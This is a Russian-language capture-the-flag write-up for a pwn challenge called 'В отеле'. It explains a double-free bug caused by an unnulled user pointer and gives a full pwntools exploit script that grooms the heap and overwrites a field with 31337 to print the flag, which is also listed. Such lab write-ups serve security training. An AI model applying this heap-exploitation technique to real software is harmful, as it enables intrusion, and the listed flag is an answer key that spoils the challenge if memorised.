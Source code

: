 #  В отеле | medium | pwn

## Информация
> Герой заходит в гостиницу, рассчитывая использовать свои навыки социальной инженерии, чтобы убедить сотрудницу на ресепшене выдать номер без бронирования. Однако её ответы были чёткими и отточенными, а попытки убедить оказались безуспешными. Тем не менее, герой узнаёт, что существует некий универсальный код бронирования, доступный только менеджеру. Этот код можно использовать для заселения в номер без предварительного подтверждения. Взглянув в угол холла, он замечает экран с надписью: "Онлайн-поддержка." Посмотрим, что он может с этим сделать...


## Выдать участинкам
файл [hotel](public/hotel)

## Описание
Для решения надо заметить, что не происходит обнуления указателя после удаления пользователя.

## Решение
Открываем бинарь, изучаем поведение и все функции. Находим место где выводится флаг.

![alt text](solve/image.png)

**(Функция read_secret)**

Видим, что эта функция проверяет какое-то поле у curr_user и если оно равно 31337, то выводит флаг.

Значит нужно каким-то образом записать туда это значение.

Проанализировав все функции, можно заметить, что после удаления текущий юзер не обнуляется, а значит мы можем повторно его удалить. Имеем уязвимость double free

![alt text](solve/image-1.png)

**(Уязвимая функция)**

Также в эксплуатации нам поможет функция write_msg (она позволяет аллоцировать чанк любой длины, а затем записать туда что-то)

Алгоритм нашей атаки будет следующий: 

1. Используем double free (то есть очищаем один чанк два раза)
2. Выделяем чанк через write_msg такого же размера, как и структура User
3. Записываем туда наши данные (31337)
4. Получаем флаг

Полное решение:

```python
from pwn import *


s = process("./hotel")

for i in range(9):
    s.recvuntil(b"> ")
    s.sendline(b"2")
    s.recvuntil(b": ")
    s.sendline(f"{i}".encode())
    s.recvuntil(b": ")
    s.sendline(f"{i}".encode())

for i in range(7):
    s.recvuntil(b"> ")
    s.sendline(b"1")
    s.recvuntil(b": ")
    s.sendline(f"{i}".encode())
    s.recvuntil(b": ")
    s.sendline(f"{i}".encode())
    s.recvuntil(b"> ")
    s.sendline(b"3")
    s.recvuntil(b"> ")
    s.sendline(b"4")

i = 7
s.recvuntil(b"> ")
s.sendline(b"1")
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b"> ")
s.sendline(b"3")
s.recvuntil(b"> ")
s.sendline(b"4")

i = 8
s.recvuntil(b"> ")
s.sendline(b"1")
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b"> ")
s.sendline(b"3")
s.recvuntil(b"> ")
s.sendline(b"4")

i = 7
s.recvuntil(b"> ")
s.sendline(b"1")
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b"> ")
s.sendline(b"3")
s.recvuntil(b"> ")
s.sendline(b"4")

for i in range(50, 50+7):
    s.recvuntil(b"> ")
    s.sendline(b"2")
    s.recvuntil(b": ")
    s.sendline(f"{i}".encode())
    s.recvuntil(b": ")
    s.sendline(f"{i}".encode())

i = 123
s.recvuntil(b"> ")
s.sendline(b"2")
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b": ")
s.sendline(f"{i}".encode())

i = 456
s.recvuntil(b"> ")
s.sendline(b"2")
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b": ")
s.sendline(f"{i}".encode())

i = 123
s.recvuntil(b"> ")
s.sendline(b"1")
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b": ")
s.sendline(f"{i}".encode())

s.recvuntil(b"> ")
s.sendline(b"1")
s.recvuntil(b": ")
s.sendline(f"{40}".encode())
s.recvuntil(b": ")
s.sendline(b"A" * 16 + p64(31337))

s.interactive()
```

## Флаг
`PolyCTF{D0Ubl3_r00m_f4r_yoU_S1R}`

